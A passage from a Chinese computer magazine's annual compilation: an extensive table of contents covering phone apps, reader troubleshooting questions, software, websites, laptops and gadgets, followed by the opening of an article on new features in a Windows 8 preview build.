-   283 告别阅读器 自制安卓电子书
-   283 发短信不要钱 微信 米聊你选谁

## 手机软件串串烧

-   284 彻底告别按键 诺基亚手机触控才给力
-   284 只能单向传输？塞班3和山寨机蓝牙传情
-   284 手机摇一摇 伪造来电助你顺利“脱身”
-   284 制作铃声无需电脑 手机也能对歌曲“做手术”
-   284 偷流量？没门！“防火墙”让你安心联网
-   285 照片 你好
-   285 云比价 贼便宜
-   285 团购管家 管理团购更轻松
-   285 租房买房 手机帮忙
-   286 开辟通往iPad2的文件直传“通道”
-   286 任务达人 助你实现玩机达人梦想
-   286 有备无患 手机丢失轻松应对
-   287 又个性又温馨 咱用视频做壁纸
-   287 手机看新闻 资讯尽掌握
-   287 实际流量VS计费流量——莫让流量监控软件欺骗你
-   288 让爱机成为照顾“宝宝”的好帮手
-   288 服务在“掌中” 车主更轻松
-   288 手机当直尺 测量工具随身装
-   289 让你的手指做运动 手机“手势操作”才给力
-   289 掌中英语
-   289 天天浏览器
-   289 ezPDF Reader
-   289 Wind资讯股票基金债券投资专家HD
-   289 俏媚来电
-   289 卓彩中奖王
-   289 悦TV
-   289 随身翻
-   289 魔幻时刻相机 Magic Hour-Camera
-   289 驾考宝典
-   289 Android天气通儿童纪念版
-   289 团购大全
-   289 好习惯
-   289 万花筒
-   289 翻客
-   289 微信
-   290 超级指纹扫描仪
-   290 微拍
-   290 兜兜友
-   290 找找地图
-   290 国信金太阳手机证券
-   290 码上淘
-   290 Weico微博客户端
-   290 酷我电台
-   290 谷歌阅读器 gReader
-   290 名片碰碰
-   290 安全管家
-   290 591up公务员考试应战平台
-   290 弹指聊天（实时语音版）
-   290 超炫天气闹钟专业版
-   290 挑西瓜
-   290 减肥水，健康水
-   290 愤怒的小鸟闹钟
-   290 美食达人
-   290 导航犬 navidog
-   290 Sports tracker
-   290 Wellness Diary 健康日记
-   290 和谐动车
-   291 时尚家居
-   291 位置警报 Proxi
-   291 爱祝福
-   291 弹指聊天
-   291 KK聊天
-   291 蚁信
-   291 乐友
-   291 兜兜友
-   291 手机公社
-   291 超频降频随心所欲
-   291 手机变心跳探测器
-   291 手机缓存清道夫
-   291 手机上的抓拍利器
-   291 维系好你的亲情
-   291 非诚勿扰的“吉他男”
-   291 用摄像头查单词
-   292 你的隐私保险箱
-   292 塞班变Android
-   292 剩余电量能干嘛 得问我
-   292 锁屏也是玩艺术的机会
-   292 桌面美化我做主
-   292 网络小说塔读找
-   292 手机变成监视器
-   292 照相就变脸
-   292 iPhone变成记事本
-   292 不要做过一次打折
-   292 手机下载无损音乐更方便
-   292 实时更新看报纸
-   292 给手机里每个好友一个大头贴
-   292 手机上的PS
-   293 手机“百宝囊”
-   293 另类防盗软件
-   293 你也是“柯南”
-   293 让手机续航时间更持久
-   293 让你轻松装软件
-   293 找歌神器
-   293 精打细算过日子
-   293 全能播放器
-   293 无线好不好用 问我就知道
-   293 装上这个 手机变有声电子书
-   293 高动态照片手机也能拍
-   293 还在用手电筒 你out啦
-   293 生活即时问答 虫洞帮你忙
-   293 声控相机 拍照好帮手
-   293 温度多少我来告诉你
-   294 3G流量压缩器 Onavo
-   294 我的iPhone能演奏
-   294 让iPhone轻松拍出1200万像素照片
-   294 还在买报纸 太浪费了
-   294 让手机变身移动Office利器
-   294 身边美食拍
-   294 轻松梳理你的人脉网络
-   294 查话费？和10086说拜拜
-   294 买手机必备检测工具
-   294 手机信号差的往这看
-   294 买东西手机帮你货比三家
-   294 塞班短信界面一点都不土
-   294 环球旅行中的语言顾问
-   294 发微博？动口不动手
-   295 走到哪我都要享受优惠
-   295 有了它 手机照相变成铅笔画
-   295 拼图游戏也能DIY
-   295 用网络听收音机
-   295 对排队买电影票说 NO!
-   295 我的铃声 我做主
-   295 健身减肥还需好帮手
-   295 我的支出我管理
-   295 提醒你 我用语音
-   295 网络对讲不花钱 我用手机YY

## 傻博士信箱

### 软件

-   296 找回误删除的媒体播放器
-   296 打开PPT报错
-   296 Potplayer关联文件无法打开
-   296 光影魔术手在Windows 7下不好用
-   296 QQ无法运行
-   296 禁用页面文件造成小红伞无法升级
-   296 Notepad打开文档显示乱码
-   296 无法打开UMPTool
-   296 解决诺顿首次更新难题
-   296 Word文档为何无法修改
-   296 如何查看Potplayer的播放列表记录
-   296 UltraISO制作优盘权限
-   296 无法直接解压
-   296 Word文档损坏无法打开
-   296 搜狗输入法如何取消联想功能
-   297 安装Acrobat后没有虚拟打印机
-   297 Everything无法保存排除列表
-   297 无法安装Photoshop CS5
-   297 视频录制出现声音录制问题
-   297 如何直接打开旺旺客户端
-   297 Qsoft ramdisk重启总是蓝屏
-   297 P2PSearcher无法使用
-   297 卡巴斯基2012无法卸载
-   297 Total Commander被报毒
-   297 游戏无法运行
-   297 开启瑞星套装就无法看网络视频
-   297 无法彻底清除X router
-   297 桌面上总会自动生成YourGame.exe
-   297 无法安装虚拟机软件
-   297 Word无法打印
-   297 “魔兽大脚”运行提示错误
-   297 打开Potplayer总弹出警告对话框
-   297 无法卸载Acrobat
-   298 清除优盘使用记录
-   298 无法安装McAfee
-   298 QQ截图功能异常
-   298 如何找回录音文件
-   298 更改Photoshop中的鼠标形状
-   298 Photoshop笔刷光圈显示不全
-   298 文件打开与编辑不是同一个程序
-   298 无法取消KMPlayer记忆播放位置
-   298 Excel保存出错
-   298 无法玩“愤怒的小鸟”
-   298 Word、Excel均无法打印
-   298 Windows 7下软件不能安装
-   298 过滤双语片中的粤语
-   298 瑞星总提示“高危”
-   298 Foobar启动非常慢
-   299 删除快盘留下的光驱盘符
-   299 光影魔术手不能正常使用
-   299 Nero刻录的音乐光盘不能自动播放
-   299 Ghost还原系统出错
-   299 无法启动游戏
-   299 WinPE下安装64位Windows 7出现问题
-   299 声音如何直接从声卡录制
-   299 KMPlayer播放画面下方显示缺口
-   299 Ghost无法备份固态硬盘系统
-   299 如何删除JPG-Crack.exe
-   299 打开Word就出错
-   299 双击无法关闭TC标签
-   299 64位Windows 7无法玩CS
-   299 Ghost安装器出现“Invalid switch”错误
-   299 TC无法保存列宽
-   299 Word表格转成Excel表格总是出错
-   300 Everything搜不到文件
-   300 老电脑无法安装VMware
-   300 TC中删除文件却切换到其他程序
-   300 Excel总是提示gwodm132.dll加载不了
-   300 无法卸载、安装卡巴斯基安全部队
-   300 TC中无法显示带点号文件
-   300 视频播放不正常
-   300 无法播放nrg音频
-   300 小红伞无法装到Windows 2003
-   300 QQ2011响应慢
-   300 Movie Maker不能正常保存影片

### 网络

| 页码 | 问题描述 |
|------|----------|
| 300 | IE主页总被改成瑞星首页 |
| 300 | 115网盘过期文件无法下载 |
| 300 | 浏览网页总变成下载页面 |
| 300 | 保存网页却不能保存图片 |
| 301 | 无法安装Flash插件 |
| 301 | IE无法正常显示新浪股票页面 |
| 301 | 升级迅雷后丢失列表 |
| 301 | 页面中的Flash均在页面左上角显示 |
| 301 | 百度页面左侧变成空白 |
| 301 | Opera字体发虚 |
| 301 | 页面按钮变形 |
| 301 | 频繁提示“脱机工作” |
| 301 | 为何无法同时上网 |
| 301 | 聊天正常网页却无法打开 |
| 301 | 打开支付宝提示证书错误 |
| 301 | 局域网文件拷贝速度异常 |
| 301 | 农行网银不能付款 |
| 301 | 电脑网络工作不正常 |
| 301 | 6M网为何速度很慢 |
| 302 | 路由器不能当交换机使用 |
| 302 | 带登录账号的网页无法登录 |
| 302 | QQ联系人无法删除 |
| 302 | Google总提示设为主页 |
| 302 | 无法安装QQ |
| 302 | 点击后链接不改变颜色 |
| 302 | 无法安装Chrome扩展 |
| 302 | Opera无法使用淘宝安全控件 |
| 302 | 搜索资料总变成歌曲搜索 |
| 302 | QQ空间无法添加背景音乐 |
| 302 | 傲游3经常卡死 |
| 302 | Google阅读器无法打开RSS频道 |
| 302 | TCP/IP错误无法拨号 |
| 302 | 土豆视频全屏时会花屏 |
| 302 | IE9无法关联迅雷 |
| 302 | 打开Chrome就提示下载 |
| 302 | 部分网页打开弹出错误对话框 |
| 303 | 大雨后无法上网 |
| 303 | Firefox升级后总弹出错误提示 |
| 303 | 点击淘宝链接不启动淘宝旺旺 |
| 303 | 淘宝页面变成繁体界面 |
| 303 | QQ空间文字成竖状排列 |
| 303 | Google浏览器无法使用扩展 |
| 303 | 无法登录163邮箱 |
| 303 | 去除淘宝的自动登录 |
| 303 | 新浪视频无法打开 |
| 303 | 如何转移Picasa照片 |
| 303 | 总是无法登录支付宝 |
| 303 | 笔记本无线不能上网 |
| 303 | Cookies变成“OEFWVF1V.txt” |
| 303 | 浏览器默认主页无法修改 |
| 303 | QQ上的链接点击无反应 |
| 303 | QQ老版本网络硬盘中文件丢失 |
| 303 | 百度图片搜索结果无法显示 |
| 304 | 傲游3无法播放Qvod视频 |
| 304 | 系统总会自动断网 |
| 304 | 百度音乐盒无法打开 |
| 304 | PT上传速度无法满速 |
| 304 | Firefox无法打开京东网站 |
| 304 | 播放网页视频提示Missing Plug-in |
| 304 | Firefox无法打开新标签页 |
| 304 | 如何取消Gmail检测附件病毒 |
| 304 | QQ在Windows 7下无法运行 |
| 304 | 无法安装支付宝数字证书 |
| 304 | 傲游浏览器标签假死 |
| 304 | 将Connectify更新到3.0就上不了网 |
| 304 | 无线网络总是自动断开 |
| 304 | Chrome Plus在任务栏总显示2个图标 |
| 304 | QQ消息时间比系统时间慢10分钟 |
| 304 | Firefox启动时出错 |
| 304 | Chrome中的代理切换功能失效 |
| 305 | 支付宝无法支付 |
| 305 | 看优酷视频假死 |
| 305 | Firefox丢失刷新按钮 |
| 305 | 无法关联银行卡 |
| 305 | 无法找到Chrome的配置文件 |

### 系统

-   305 系统无法启动VPN
-   305 优盘文件变成系统隐藏文件
-   305 C盘每天增加1GB
-   305 无法安装Windows 7 SP1
-   305 虚拟机无法识别SCSI硬盘
-   305 合并分区后无法启动系统
-   305 自由空间无法分区
-   305 插上移动硬盘容易死机
-   306 双系统无法进入指定系统
-   306 光驱丢失
-   306 系统启动自动打开程序文件夹
-   306 系统启动后无声音提示
-   306 无法备份系统映像
-   306 系统无法更新
-   306 系统关机经常被中断
-   306 系统蓝屏
-   306 开始菜单经常会卡住
-   306 系统无法恢复
-   306 无法删除System32目录下的文件
-   306 无法设置桌面背景
-   306 文件删除不入回收站
-   306 屏幕保护无法自动启动
-   306 系统装软件就出错
-   307 打不开Windows防火墙高级设置
-   307 CPU被占用100%导致假死
-   307 系统性能有时会降一半
-   307 鼠标移动出现不连贯现象
-   307 无法设置扬声器
-   307 双系统下的软件无法共用
-   307 图标经常出错
-   307 系统失去特效
-   307 无法设置显示扩展名
-   307 电脑通电就会自动开机
-   307 Windows 7无法备份# 目录

- 307 游戏有黑边
- 307 任务栏管理器界面不正常
- 307 打开文件夹资源管理器就卡机
- 307 清空回收站出错
- 308 MSE无法卸载
- 308 关机总显示：准备配置Windows
- 308 浏览器等故障导致系统崩溃
- 308 魔兽争霸无法全屏
- 308 无法检测磁盘
- 308 保存新文件导致程序假死
- 308 麦克风音量选项变灰无法调整
- 308 Windows 7开机有时变成Basic模式
- 308 每次要按CMOS键才能启动系统
- 308 大容量移动硬盘和数码相机存储卡无法读写
- 308 开机出现找不到脚本的错误提示
- 308 美化系统后开始菜单无变化
- 308 断电开机后提示C盘空间不足
- 308 分区转换后数据丢失
- 308 系统开机时CPU占用率过高
- 308 重装系统后盘符紊乱
- 309 资源管理器无法使用
- 309 安装Windows 7提示缺少CD/DVD驱动
- 309 Ghost还原系统出错
- 309 系统无故多出几个磁盘
- 309 系统窗口出现乱码
- 309 程序快捷方式打不开
- 309 无法删除ImageX备份系统时的备份
- 309 启用AHCI后无法启动系统
- 309 每次开机均提示按F2键
- 309 无法开启数字小键盘
- 309 开启系统的硬件设备更新
- 309 系统开机后总要重启一次
- 309 无法删除USB设备
- 309 文件夹不能自动刷新
- 310 快捷方式属性失效
- 310 无法切换到超级账户
- 310 系统时间无法修改
- 310 桌面字体如何去掉阴影
- 310 查看文件夹时速度很慢
- 310 笔记本电脑电池无法充电
- 310 华擎ION330休眠唤醒后音频失效
- 310 PSP GO游戏机为何充电量小
- 310 插入显示器无法切换
- 310 诺基亚经常自动联网
- 310 MP4播放器出现红屏现象
- 310 ThinkPad笔记本离开后自动锁定
- 310 iPhone 4插入笔记本的USB接口不能充电
- 311 Android系统手机WiFi信号差
- 311 喷墨打印机注墨后打印不清晰
- 311 CPU过热造成死机问题
- 311 喷墨打印机打印出现斑马纹
- 311 开机连续两声短响报警声
- 311 CPU风扇不能识别
- 311 播放1080P视频出现马赛克
- 311 休眠后声卡不能发声
- 311 DVD刻录为何中断
- 311 黑色墨盒没墨为何还能打印
- 311 笔记本电脑触控板无法使用
- 311 网卡速度从100MB变成10MB
- 311 4GB单条内存只显示1.99GB
- 311 开机为何识别固态硬盘
- 311 笔记本电脑声卡不能发声
- 312 连接投影机无显示
- 312 无线信号无法连接
- 312 游戏如何在宽屏上玩
- 312 接收彩信为乱码
- 312 硬盘读写速度变慢
- 312 诺基亚手机安装软件提示证书受限
- 312 光标为何闪烁晃眼
- 312 索尼记忆棒无法读取
- 312 ThinkCentre设置主板BIOS开机密码
- 312 黑莓手机无法拨打电话
- 312 开机提示 "HDD Controller Failure"
- 312 进入操作系统黑屏
- 312 显卡造成的花屏
- 312 笔记本电脑没有无线功能
- 312 机箱前置USB口或音视频播放不正常
- 313 佳能液晶屏出现黑色物体
- 313 MacBook Air使用Win7会否影响电池续航
- 313 无法启动原是键盘惹的祸
- 313 ThinkPad X200笔记本电脑换硬盘
- 313 笔记本电脑出风口过热
- 313 硬盘没有分区
- 313 无法正常关机
- 313 集成主板不兼容独立显卡
- 313 iPhone4手机Home键失灵
- 313 笔记本电脑续航能力下降
- 313 DV取景器没有图像显示
- 313 GPS出现延迟停滞现象
- 313 税控打印机乱码
- 313 BIOS设置不当造成无法无线上网
- 314 一些软件无法使用3G网络
- 314 笔记本电脑合上盖子无法休眠
- 314 开机为何需要按“F1”键
- 314 机箱风扇为何噪音很大
- 314 声卡驱动程序无法安装
- 314 笔记本电源发出“嗞嗞”声
- 314 iPhone 4黑屏死机
- 314 投影机为何没信号
- 314 CPU超频后出现蓝屏
- 314 移动硬盘盘符无法找到
- 314 启动速度为何变慢
- 314 启动计算机要按多次电源键
- 314 DVD刻录机电源校验错误
- 315 USB接口耳麦为何识别慢

# 目录

《电脑爱好者》合订本

- 315 笔记本电脑外置扬声器出现杂音

# 新软物语

- 315 QQ手势达人for PPT
- 315 用脑袋控制鼠标
- 315 数据恢复小能手——Undelete360
- 315 模拟未来宝宝的模样
- 315 鼠标自动操作
- 315 音乐送你进梦乡
- 315 看看每天时间到底耗在哪些程序上
- 315 鼠标右键菜单项的管家婆
- 315 开程序也能踏雪不留痕
- 315 建造WiFi热点只需鼠标一点
- 315 让你的电脑也能时刻保鲜
- 315 下载“难缠”视频不用费劲
- 315 让宝贝爱上读书
- 315 超酷的音量调节工具
- 316 取名字，哼哈二将很给力
- 316 让Windows 7任务栏更“包容”
- 316 大硬盘数据快速还原
- 316 万款小游戏任你玩
- 316 Windows 7入驻移动硬盘、优盘
- 316 自启动程序较拥挤？我来疏导疏导
- 316 让你体验多核浏览的快乐
- 316 定制自己的资源管理器
- 316 通往高手的桥梁
- 316 为USB安把锁
- 316 电脑人士，养成定时休息很重要
- 316 免费的无线“路由”
- 316 个性化Windows 7登录界面
- 316 边玩边学，单词记忆不再难
- 316 GIF动画“瘦身”成QQ表情
- 316 高清音乐MV，一次乐个够
- 316 文库下载无需积分
- 316 电脑里面有“蚊香”
- 316 将系统相关功能搬到桌面上
- 316 为小喇叭添加左右声道控制按钮
- 317 本本中浏览网页不再愁关闭标签了
- 317 去除小红伞的广告窗口
- 317 让剪切板像网上邻居那样可共享
- 317 图片缩小处理不用求人
- 317 瑞星浏览器，上网浏览又多一种选择
- 317 轻松下载海量手机电影
- 317 超酷桌面，酷鱼制造
- 317 正版音乐，震撼视听
- 317 让游戏更流畅
- 317 电子书转换利器
- 317 全能的系统优化工具——魔方
- 317 RAW图片随意看
- 317 让你的鼠标操作超前十年
- 317 压缩包内找文件，不再费脑筋
- 317 “龟速”不堪忍受？优化优化吧
- 317 硬件达标，但游戏不流畅的解决方案
- 317 绿色软件也可以自己定制
- 317 带语音的计算器
- 317 轻松修复受损文件
- 318 给Windows找个“美容师”
- 318 免费安全的顶级加密工具
- 318 记录鼠标轨迹 自制映像派绘画
- 318 按需设置自动关机
- 318 让你远离电脑病
- 318 跨平台远程控制这样很方便
- 318 Firefox 7.0 Beta 5
- 318 让游戏摆脱卡壳的尴尬
- 318 系统命令提示符的最佳替身
- 318 窗口，轻松置顶
- 318 光一样的搜索
- 318 隐藏秘密全“露陷”
- 318 Archive Searcher，专搜压缩包
- 318 DocFetcher，让文档一个不落
- 318 让相似图片原形毕露
- 318 手机与电脑通用的日历
- 318 一分钟批量创建上百文件夹
- 318 单张图片拼接成“全景图”
- 318 打造一个下载自解压机器人
- 319 不开机箱查看硬件信息
- 319 隐身有术，上网就需要“蒙面”
- 319 64位版Total Commander8 Beta应时而生

# 酷网千寻

- 319 方言学习好去处
- 319 支持外链的优秀网络相册
- 319 WebQQ3.0迈向云操作系统
- 319 不停变化的美女时钟
- 319 逛遍全球足球场
- 319 寻找类似网站
- 319 自当设计师，妆饰新家
- 319 练就避难防御真功夫
- 319 租房子苦于看小广告？这有网络雅座呢
- 319 每天十句话，愉悦自己的心情
- 319 教你识车
- 319 在线帮你数学题
- 319 测测你的名字值多少钱
- 319 Google的免费电吉他
- 319 特效短片轻松做
- 319 在线制作图表
- 319 美味小吃自己做
- 320 弄虚作假，在线生成损坏文件
- 320 无需流血写血书
- 320 超强的科学计算器
- 320 不会布置家？来学学吧
- 320 网罗开心元素，自寻开心
- 320 用欣赏的眼光去享受广告
- 320 美景好图，分享无耽搁
- 320 让你过把鼓手的瘾
- 320 赤手空拳制作创意图片
- 320 轻松做首藏头诗
- 320 Ting! 为正版音乐而生
- 320 缔造大自然的歌声
- 320 3D购物，用鼠标“逛街”
- 320 网上游览全球知名博物馆
- 320 两个网站同时浏览
- 320 免费听相声评书
- 320 自制LOMO相片
- 320 图片显示速度快——六间房快捷贴图
- 320 可去水印的外链相册——Poco
- 320 支持游客上传图片的外链相册——Minus
- 320 无限容量的国外相册——Imgur
- 320 偏重于分享的国外相册——Thumbsnap
- 321 非常适用于临时存储图片的相册——Myggdot
- 321 人未行，地先定
- 321 学摄影，拍好照
- 321 懂礼仪，游四方
- 321 选路线，择宾馆
- 321 在线房贷计算器
- 321 在线计算个人所得税
- 321 网盘下载，也能享受“离线”服务
- 321 在线版团队协作式任务管理
- 321 这回说的是装饰，不是装修
- 321 以书会友，借友识书
- 321 电影不用下载即可观看
- 321 免费图标资源任你选
- 321 HTML编辑，在线也可以实现
- 321 定制个性化礼品
- 321 在线制作精彩视频相册
- 321 网名变头像
- 321 匿名电话免费打
- 321 在家就读世界名校
- 321 3D电影知多少
- 322 遇到特殊要求，给图片减肥不费劲
- 322 最方便的手机游戏
- 322 将“虚拟”进行到底
- 322 找小游戏，一找一个准
- 322 新浪微博中看养眼美女
- 322 自助建站，其实菜鸟也行
- 322 文件共享也云一把
- 322 做个草根时尚达人so easy!
- 322 经典阅读新干线
- 322 在线玩多米诺骨牌
- 322 在线制作甜蜜视频
- 322 带视频的在线词典
- 322 智能识别字体
- 322 数码时代的选机利器
- 322 安卓手机必备搜索利器
- 322 分享婚纱照也是件有意义的事
- 322 想有号召力，那你就做发起人吧
- 322 找个助手帮助自己快速背诵
- 322 鼠标简单几步画个小人能跳舞
- 322 快速变身时尚达人

# 笔记本&整机

- 323 SONY VAIO SD的7门秘技
- 324 APU和Atom谁更强 ACER A0522“给力”体验
- 324 小黑也能玩游戏 ThinkPad E420S入手体验
- 324 2000元 攒机还是上网本
- 325 X86染指平板 Windows支持ARM 平板电脑迎来“混乱之治”
- 325 视频转码速度慢 快找SNB核芯显卡来帮忙
- 325 大号APU 华硕K43BY笔记本体验
- 326 理性看待独立显卡 笔记本重回集显时代
- 326 合理超频 让你的显卡变身“超级赛亚人”
- 327 Android 3.1来了 华硕Eee Pad Transformer TF101体验
- 327 核芯显卡 比想象中更强大
- 328 火眼金睛 教你识破低价轻薄本中的猫腻
- 328 笔记本分区不合理 让Windows 7自己帮C盘“减负”
- 329 简单 易用 联想乐Pad平板电脑使用体验
- 329 系统保留分区惹人厌 如何隐藏Win7中的100MB/200MB分区
- 329 更小的iPad 可能吗
- 330 和台式机说拜拜 低价大屏笔记本够给力
- 331 ACERAspire 4830TG入手体验
- 331 不用重启 直接在苹果系统中打开Windows软件
- 332 笔记本想“永葆青春” 升级BIOS少不了
- 332 有容乃大 笔记本硬盘如何选
- 332 让笔记本更“冷静” CFan教你挑选散热底座
- 333 雾里探花 什么样的笔记本最适合你
- 333 MacBook Air的模仿者 Ultrabook笔记本值得期待吗
- 334 贵有酷睿 廉选奔腾 低价笔记本又有新选择
- 334 双内存才给力 教你用好笔记本的APU
- 335 启动速度慢 联想“小Y”开机优化攻略
- 335 笔记本若想轻薄全靠它 英特尔全新ULV处理器面面观
- 336 高端本玩游戏也会卡 破解因CPU降频引发的“血案”
- 336 APU是否给力 华硕K43T笔记本体验
- 337 新手优化四步走 让你的笔记本运行如飞
- 337 APU家族再添新成员 AMD E450值不值得期待
- 338 不是谁都适合你 合理看待笔记本的“潮流趋势”
- 338 微软平板 姓Win8还是WP8
- 339 联想“搅局” 平板电脑结束暴利时代
- 339 降价千元引“围观” 联想乐Pad A1是否值得入手
- 340 向“未来”投资 笔记本不妨一步到位选四核
- 341 1.5GHz的平板新方案 冷静看待“A10”处理器
- 341 免费资源巧利用 教你用好笔记本触摸板
- 342 3000元的实用之选 上网本“套装”选购攻略
- 343 “战地”求生存 哪些笔记本可以挑战《战地3》
- 344 “牙”好功能才够强 教你用好笔记本的蓝牙功能

# 目录

《电脑爱好者》·合订本

# DIY & 整机

# 数码

- 345 500元就能享受TB级的固态硬盘
- 345 Intel Z68芯片组智能响应技术解析
- 345 夏天攒机 电源选择有学问
- 345 大万用插座大限已至 购买需注意
- 346 办公室里的战争 三款普及型激光打印机全方位PK
- 347 省电静音又舒适 机箱选择有学问
- 347 亲历中关村鼎好维修“黑幕”
- 348 Sandy Bridge-E顶级平台抢先展望
- 348 性能、质量和价格的最佳结合
- 348 Intel 320固态硬盘短期使用感受
- 348 选择合适机箱 安然度过酷暑
- 349 安全至上 新国标排插产品推荐
- 349 “白菜价”是否足矣 历数低端液晶五大硬伤
- 349 让老IDE接口光驱发挥余热
- 350 智能响应 VS RAID谁占优 实测数据告诉你
- 351 还用有线你就OUT啦 无线键鼠套装购买建议
- 351 给力白轴 ——小记CHERRY原厂G80-8113LRCUS机械键盘
- 351 我的数据在电线里跑 电力组网全面指南
- 352 冬季电取暖 设备使用要注意
- 352 近期热门 英特尔主流CPU推荐与分析
- 352 炎炎夏日 ATI显卡巧降温
- 353 市售廉价IPS液晶显示器搜罗
- 353 中档主力 550Ti、HD 6790你选谁
- 354 找回被狮子吃掉的硬盘
- 354 不要迟疑了 蓝光光驱不会普及的
- 354 AMD APU主板选购必看
- 355 硬盘多得发愁 买个USB 3.0底座吧
- 355 功能更齐全 价格也厚道 3D显示新品设备推荐
- 356 中流攒机怎么配更合理 实测数据告诉你
- 357 解决长距离网络共享问题 你需要WDS无线中继
- 358 硬盘有坏道 手工把它屏蔽掉
- 358 融合的时代 独显、集显这么选
- 359 创新、易用、人性化
- 359 从新品中看到的主板新元素
- 359 寸金寸土的空间 就买高集成度小板
- 359 都是3TB 有什么不一样
- 360 背板走线成潮流 机箱电源搭配帮你选
- 360 钟声再临 Ivy Bridge处理器格局前瞻
- 361 功能稍简陋 速度挺不错 ——华硕RT-N56U路由器离线下载功能体验
- 361 不必盲从跟风 主板最重要是合适
- 361 居家省钱妙招 自己动手灌墨盒
- 362 推倒重来的AMD推土机
- 362 顶级的对决 Sandy Bridge-E i7-3960X处理器比拼i7-2600K实测
- 363 移动存储久盼之福——USB 3.0
- 363 远离杂乱机箱 普通机箱也玩背板布线
- 364 再次迎来世界瞩目 苹果系统升级iOS5
- 364 迪斯尼创意USB耳朵音箱
- 364 动物红酒瓶塞
- 364 粗、细、双线能画3种线条的记号笔Beetle Tip
- 365 Meego濒死 or 重生
- 365 高清视听过暑假 影音MP4如何买
- 365 霸气的创意 螺丝挂钩套装
- 366 好马配好鞍 买鼠标垫有门道
- 366 机器人耳机分线器
- 366 Motz超迷你播放器
- 366 电人奥迪车钥匙
- 367 Mango能否打好翻身仗
- 367 老虎机存钱罐
- 367 太阳能彩虹制造器
- 367 超可爱小狗台灯
- 367 Android系统要省电 优化技巧帮你忙
- 368 双核对决Sensation VS Atrix 4G
- 368 性价比对决开新章 HTC G7 VS 摩托罗拉Defy
- 369 别拿耳机不当干部——耳机保养面面观
- 369 智能门槛也不高 千元内也Android手机推荐
- 370 新潮就是潮流吗 冷眼看裸眼3D手机
- 370 1GHz对决HTC Incredible S VS索尼爱立信LT15i
- 371 买的没有卖的精 网购耳机真假难辨
- 371 越养越肥 开薪小猪存钱罐
- 371 HandStand 2单手倒立iPad2保护套
- 372 小米们要冷静 惊人数据有水份
- 372 新手司机勇闯翡翠岛 捷波朗FREEWAY车载蓝牙免提试用报告
- 372 俄罗斯方块即时贴 BLOCK STICKY NOTES
- 373 自家侧滑全键盘对决 HTC S610d VS HTC Desire Z
- 373 外形相似 单反单电差哪般
- 373 半球仿真监视器
- 373 偷钱喵储蓄罐
- 374 3D对决 LG Optimus 3D VS 夏普 SH8158U
- 374 抱枕遥控器
- 374 Pillow Remote Control
- 374 蹼手游泳手套Darkfin Gloves
- 374 分歧终端机 Decision Maker
- 375 手机必备伴侣 贴膜怎么选
- 375 难以再次改变世界的iPhone 4S
- 375 会扭脖子的晃晃钟Swing Clocks
- 376 发烧对对碰 小米手机VS三星i9100评测
- 376 V8引擎造型声效削笔刀
- 376 掀屁股小人 有“币”快放 储蓄罐
- 376 电脑隐私保护器
- 377 iPhone 4S阻击战之群雄争霸
- 377 2000元单核强机对决 谷歌Nexus S i9023 VS 索尼爱立信LT15i
- 378 马大哈不用愁 看我手机也三防
- 379 通话上网两不愁 看我多合一SIM卡显神威
- 379 好耳机还要推力够 购买高阻抗耳机要注意

# Windows 8 亮点揭秘

可能很多朋友连Windows 7都还没有用熟悉，下一代操作系统Windows 8已经进入深度测试的阶段。虽然大家都在骂着微软的垄断，但心甘情愿做微软“小白”的朋友还是相当之多。每有一个新的泄漏版本放出，都会引起围观和下载狂潮。今天就让我们共同走入Windows 8的世界吧。

# 亮点一 在任务栏上实现账户级操作

Windows 7：在Windows 7系统中，如果需要切换到不同的账户，需要进入登录界面才能实现，而这必须按下“Ctrl+Alt+Del”组合键。虽然也可以通过单击“关机”按钮进行操作，但很容易导致误操作。

Windows 8：将账户设置、更改头像、切换账户、注销、关机等功能集成在任务栏，鼠标轻点就可以实现。鼠标单击任务栏托盘区的账户头像，可以看到一个快捷菜单，例如选择“Switch user”，在这里可以直接切换到另一账户，也可以在这里完成创建新账户的操作。Windows 8的这个功能虽然简单，但对最终用户来说，可以说是相当的实用，而且也很直观。

# 亮点二 设置视频头像

Windows 7：Windows 7虽然可以为不同的账户设置个性鲜明的图片头像，但需要依次进入“控制面板→用户账户和家庭安全→用户账户→管理账户→更改账户→选择图片”，步骤十分繁杂，而且不支持使用视频头像。最新版本的Windows Live Messenger支持视频头像，但无疑是远水不解近渴。

Windows 8：可以为账户设置视频头像。只需要一个步骤即可更改账户头像，单击任务栏系统托盘区的账户头像，从快捷菜单中选择“My Look”，或者从控制面板中依次选择“Manage Accounts→Change an Account→Change the picture”。在列表框的“Default Picture”区域，除了可以选择不同的图片之外，我们可以看到两个带有播放按钮的视频缩略图，选择之后即可将其设置为当前账户的视频头像。当然你也可以通过“Browse for more pictures”选择其他符合格式的视频文件。

# 亮点三 输入法图标直接显示

Windows 7：切换输入法可以说是我们使用最为频繁的操作之一，但Windows操作系统提供的快捷键并不方便，虽然Windows 7已经允许用户快速调整输入法的顺序，但设置快捷键仍然颇为麻烦，例如搜狗等第三方输入法可能还会强行占位。

Windows 8：Windows 8提供了新的输入法图标，而且操作更为舒适，这个图标会自动显示当前所使用输入法在系统输入法中的排名位置，也可以按下“Win+A”组合键进行切换，完全不需要记忆各种复杂的组合键。无论是从大按钮点击的方便来说，还是从容易记忆的新快捷键来说，都是相当的方便。不过，可能你会觉得这样的操作方式颇有不便，按照下面的方法可以恢复Windows 7时代的小键盘风格。

进入控制面板，依次跳转到“Clock, Language, and Region→Language”，选择当前的语言配置文件，单击左侧导航栏的“Language bar options”按钮，在这里选择“Use Windows 7 language bar”，保存之后即可生效，我们立即就可以在任务栏看到Windows 7风格的小键盘图标。

# 亮点四 资源管理也使用Ribbon风格

Windows 7：Windows 7的画图、写字板已经开始使用Ribbon的风格，可惜Windows 7的资源管理器却并没有引入这些元素，功能也相对简陋，例如最常用的复制、剪切、粘贴等功能按钮并没有出现。

Windows 8：提供了类似于Office 2007/2010的Ribbon风格的资源管理器，不仅大大优化对文件和应用程序的导航功能，而且功能更为强大。这里提供了Home、Share、View、Manage等多个标签页，我们可以在这里找到Cut、Copy、Paste等实用的功能按钮，而且这里还会随着所选择对象的变化主动显示活动标签，例如选择图片文件，会显示“Picture Tools”标签，其中包括Rotate left、Rotate right等按钮；选择音乐文件，会显示“Music Tools”标签，其中包括Play、Play all、Add to playlist等按钮；切换到“Share”标签页，可以完成刻录、发送邮件、传真、安全设置等功能。需要说明的是由于该版本尚未开发完成，部分按钮可能暂时处于灰色的不可用状态。

另外，每个功能按钮的前面均有圆圈状的占位符，看起来不太协调，要求比较高的用户可以自行修改ExplorerFrame.dll。

```
